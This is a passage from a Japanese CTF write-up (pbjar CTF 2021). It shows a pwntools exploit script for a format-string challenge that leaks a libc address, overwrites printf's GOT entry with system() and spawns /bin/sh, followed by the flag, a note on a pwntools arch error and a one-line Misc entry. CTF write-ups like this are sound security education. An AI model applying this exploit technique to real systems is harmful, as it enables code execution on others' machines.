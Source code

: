 s.sendlineafter(b'Give me your first input:\n', b"%15$016lx")
r = s.recvline()

puts_addr = int(r[:-1], 16) - 378
libc_base = puts_addr - libc.symbols['puts']

print(hex(libc_base))
system_addr = libc_base + libc.symbols['system']

# AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
# AAAA00b682a1.00000000.00b682e5.ec6378e0.00000000.41414141.3830252e.252e7838.78383025.30252e78.2e783830.3830252e.252e7838
# ==> 6
payload = fmtstr_payload(6, {elf.got.printf: system_addr})

s.sendlineafter(b'Nice, now give me your second input:\n', payload);

s.sendlineafter(b'Alright, one last input:\n', b'/bin/sh');
s.interactive()
{{< / highlight >}}

<br />

Flag: `flag{w1th_just_s0m3_str1ngz_1_b3c4m3_4_g0d_4t_r3d1r3ct10n}`


<br /><br />
ちなみに、説明文の中にも以下の注意書きが出てくるんですが、

`To use it, make sure you set the pwntools context arch correctly.`

<br />

最初に自分が書いたコードで arch の設定（ハイライト部分）をしていなかったばっかりに、以下のようなエラーが出て相当悩みました。。

<pre>
    raise ValueError("pack(): number does not fit within word_size [%i, %r, %r]" % (0, number, limit))
ValueError: pack(): number does not fit within word_size [0, 139917139504720, 4294967296]
</pre>



<br /><br />
<br /><br />
## [Misc]: discord plz (1 point)
- - -
<img src="https://captureamerica.github.io/writeups/img/pbjar_CTF_2021_misc1.png" alt="pbjar_CTF_2021_misc1.png">

<br />

### Solution
Discordに入れば見つかるやつ。
